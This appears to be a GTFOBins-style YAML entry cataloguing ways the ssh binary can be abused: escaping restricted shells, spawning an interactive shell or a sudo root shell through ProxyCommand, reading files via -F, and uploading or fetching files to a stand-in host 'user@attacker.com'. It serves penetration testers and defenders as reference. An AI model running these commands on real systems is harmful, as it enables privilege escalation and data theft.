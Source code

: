 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost $SHELL --noprofile --norc
    - description: Spawn interactive shell through ProxyCommand option.
      code: ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
  sudo-enabled:
    - description: Spawn interactive root shell through ProxyCommand option.
      code: sudo ssh -o ProxyCommand="/bin/sh -c 'exec 10<&0 11>&1 0<&2 1>&2; /bin/sh -i'" x
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=file_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
  file-read:
    - description: The read file content is corrupted by error prints.
      code: |
        LFILE=file_to_read
        ssh -F $LFILE localhost
---
```

